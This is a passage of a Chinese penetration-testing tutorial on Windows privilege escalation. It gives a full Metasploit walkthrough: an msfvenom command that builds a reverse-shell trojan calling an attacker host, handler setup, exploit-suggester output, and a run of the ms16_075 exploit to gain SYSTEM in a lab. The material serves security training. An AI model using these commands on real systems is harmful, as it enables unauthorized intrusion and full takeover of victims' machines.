

#### 4.4.4.2. 提权成功

可以看到这里弹出一个system的权限连接，即证明提权成功，当然这里不代表任何一个提权都能够成功的，有些提权方式可能会由于操作系统的不同，导致失败，这里我选择sweetpotato进行提权就是的，前面几个都提权失败了，有不成功的，有系统不匹配的，所以多试试，当然也可以安装更多的插件，使用不同插件中的不同的提权方式，总之多试试。



## 4.5. MSF全自动溢出提权

如果对MSF工具不熟悉的可以参考以下的连接进行学习，这个只是上篇，在博客主页中能够找到下篇。这里使用的环境是Windows7，由于Windows2012上没有补丁信息，就会导致无法识别的情况。

MSF工具使用：https://blog.csdn.net/weixin_44268918/article/details/128775978?spm=1001.2014.3001.5501

### 4.5.1. 监听操作

#### 4.5.1.1. 生成木马

通过msfvenom生成一个木马，然后将木马上传至服务器中，即可。

```
命令：msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.20 LPORT=3333 -f exe -o msf.exe
LHOST=kali地址
LPORT=自定义设置一个端口
```



#### 4.5.1.2. 监听木马

```
msf6 > use exploit/multi/handler    
[*] Using configured payload generic/shell_reverse_tcp   
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp    ##配置监听TCP
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lport 3333    ##配置监听端口
lport => 3333
msf6 exploit(multi/handler) > set lhost 0.0.0.0  ##配置监听地址，你也可以设置监听本机地址如192.168.10.20
lhost => 0.0.0.0
msf6 exploit(multi/handler) > run  ##开始监听
```



#### 4.5.1.3. 上线

当讲木马上传后，然后进行运行，即可在kali中显示上线选项，并自动反弹会话窗口，可以看到这里监听到192.168.10.150上线。



#### 4.5.1.4. 查看权限

这里还是一样的获取到的权限是administrator，由于演示麻烦，未直接从webshell上执行，所以才会出现administrator的权限，但是不用管，我们需要的是将权限提升到system。



### 4.5.2. 半自动化提权操作

#### 4.5.2.1. 提权模块

```
use post/windows/gather/enum_patches 半自动：根据漏洞编号找出系统中安装的补丁
```

#### 4.5.2.2. 操作设置

这里半自动化，在获取后，还是需要手动去找，这里就和手动溢出漏洞提权差不多，所以这里就演示一下。

```
msf6 exploit(multi/handler) > use post/windows/gather/enum_patches   ##设置半自动提权
msf6 post(windows/gather/enum_patches) > options  ##查看参数

Module options (post/windows/gather/enum_patches):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(windows/gather/enum_patches) > set session 2  ##设置编号，也就是刚刚上线的编号。
session => 2
msf6 post(windows/gather/enum_patches) > run  ##开始收集

[*] Running module against ADMIN-PC (192.168.10.40)

Installed Patches
=================

  HotFix ID  Install Date
  ---------  ------------
  KB2534111  1/5/2023
  KB976902   11/21/2010

[*] Patch list saved to /root/.msf4/loot/20230316101403_default_192.168.10.40_enum_patches_978734.txt
[*] Post module execution completed

```



### 4.5.3. 全自动化提权操作

#### 4.5.3.1. 提权模块

```
use post/multi/recon/local_exploit_suggester 全自动：快速识别系统中可能利用的漏洞
```

#### 4.5.3.2. 操作设置

这里需要注意，如果出现的漏洞比较少，可以将参数SHOWDESCRIPTION，设置为true。

```
msf6 > use post/multi/recon/local_exploit_suggester  ##设置全自动化提权
msf6 post(multi/recon/local_exploit_suggester) > options   ##设置参数

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


View the full module info with the info, or info -d command.

msf6 post(multi/recon/local_exploit_suggester) > set session 2   ##设置会话编号
session => 2
msf6 post(multi/recon/local_exploit_suggester) > run  ##开始检测

```

#### 4.5.3.3. 提权结果

在结果中，yes是可能存在的漏洞利用，no是没有的意思，这里我直接使用代码信息来表示吧，截图太大了。

```
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 192.168.10.40 - Collecting local exploits for x86/windows...
[*] 192.168.10.40 - 174 exploit checks are being tried...
[+] 192.168.10.40 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 192.168.10.40 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 192.168.10.40 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 192.168.10.40 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 192.168.10.40 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 192.168.10.40 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 192.168.10.40 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 192.168.10.40 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 192.168.10.40 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[+] 192.168.10.40 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 192.168.10.40 - Valid modules for session 2:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/ikeext_service                           Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 4   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.
 11  exploit/windows/local/adobe_sandbox_adobecollabsync            No                       Cannot reliably check exploitability.
 12  exploit/windows/local/agnitum_outpost_acs                      No                       The target is not exploitable.
 13  exploit/windows/local/always_install_elevated                  No                       The target is not exploitable.
 14  exploit/windows/local/anyconnect_lpe                           No                       The target is not exploitable. vpndownloader.exe not found on file system
 15  exploit/windows/local/bits_ntlm_token_impersonation            No                       The target is not exploitable.
 16  exploit/windows/local/bthpan                                   No                       The target is not exploitable.
 17  exploit/windows/local/bypassuac_fodhelper                      No                       The target is not exploitable.
 18  exploit/windows/local/bypassuac_sluihijack                     No                       The target is not exploitable.
 19  exploit/windows/local/canon_driver_privesc                     No                       The target is not exploitable. No Canon TR150 driver directory found
 20  exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   No                       The target is not exploitable. The build number of the target machine does not appear to be a vulnerable version!
 21  exploit/windows/local/cve_2020_1048_printerdemon               No                       The target is not exploitable.
 22  exploit/windows/local/cve_2020_1337_printerdemon               No                       The target is not exploitable.
 23  exploit/windows/local/gog_galaxyclientservice_privesc          No                       The target is not exploitable. Galaxy Client Service not found
 24  exploit/windows/local/ipass_launch_app                         No                       The target is not exploitable.
 25  exploit/windows/local/lenovo_systemupdate                      No                       The target is not exploitable.
 26  exploit/windows/local/lexmark_driver_privesc                   No                       The check raised an exception.
 27  exploit/windows/local/mqac_write                               No                       The target is not exploitable.
 28  exploit/windows/local/ms10_015_kitrap0d                        No                       The target is not exploitable.
 29  exploit/windows/local/ms14_070_tcpip_ioctl                     No                       The target is not exploitable.
 30  exploit/windows/local/ms15_004_tswbproxy                       No                       The target is not exploitable.
 31  exploit/windows/local/ms16_016_webdav                          No                       The target is not exploitable.
 32  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  No                       The target is not exploitable.
 33  exploit/windows/local/ms16_075_reflection                      No                       The target is not exploitable.
 34  exploit/windows/local/ms16_075_reflection_juicy                No                       The target is not exploitable.
 35  exploit/windows/local/ms_ndproxy                               No                       The target is not exploitable.
 36  exploit/windows/local/novell_client_nicm                       No                       The target is not exploitable.
 37  exploit/windows/local/ntapphelpcachecontrol                    No                       The target is not exploitable.
 38  exploit/windows/local/panda_psevents                           No                       The target is not exploitable.
 39  exploit/windows/local/ricoh_driver_privesc                     No                       The target is not exploitable. No Ricoh driver directory found
 40  exploit/windows/local/virtual_box_guest_additions              No                       The target is not exploitable.
 41  exploit/windows/local/webexec                                  No                       The target is not exploitable.

[*] Post module execution completed
```

#### 4.5.3.4. 执行提权

注意这里我之前的操作都是使用Windows7来提权的，不过演示过程中，发现无法提权，后来到这里的时候切换为Windows2012了，这里需要注意，也间接性表面，提权的困难。

这里选择上面yes的模块，并进行设置模块，然后设置相关参数，这里仔细看，首先设置session，这个就是之前msf上线的编号，然后后面可以看到我将端口设置为6666，其实这里，有时候会出现命令执行成功了，但是并不能反弹会话窗口，那么这里我就重新设置了一个监听，来监听返回的端口。

```
msf6 post(multi/recon/local_exploit_suggester)> use exploit/windows/local/ms16_075_reflection_juicy
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_075_reflection_juicy) > options 

Module options (exploit/windows/local/ms16_075_reflection_juicy):

   Name     Current Setting                         Required  Description
   ----     ---------------                         --------  -----------
   CLSID    {4991d34b-80a1-4291-83b6-3328366b9097}  yes       Set CLSID value of the DCOM to trigger
   SESSION                                          yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  none             yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.10.20    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.

msf6 exploit(windows/local/ms16_075_reflection_juicy) > set session 3
session => 3
msf6 exploit(windows/local/ms16_075_reflection_juicy) > set lport 6666
lport => 6666
msf6 exploit(windows/local/ms16_075_reflection_juicy) > run

[-] Handler failed to bind to 192.168.10.20:6666:-  -
[-] Handler failed to bind to 0.0.0.0:6666:-  -
[+] Target appears to be vulnerable (Windows 2012 R2 (6.3 Build 9600).)
[*] Launching notepad to host the exploit...
[+] Process 1404 launched.
[*] Reflectively injecting the exploit DLL into 1404...
[*] Injecting exploit into 1404...
[*] Exploit injected. Injecting exploit configuration into 1404...
[*] Configuration injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ms16_075_reflection_juicy) > 
```



#### 4.5.3.5. 返回端口

设置监听端口，应该不需要重新演示一边了吧，这里就看效果吧！

可以看到这里已经成功获取system权限了。


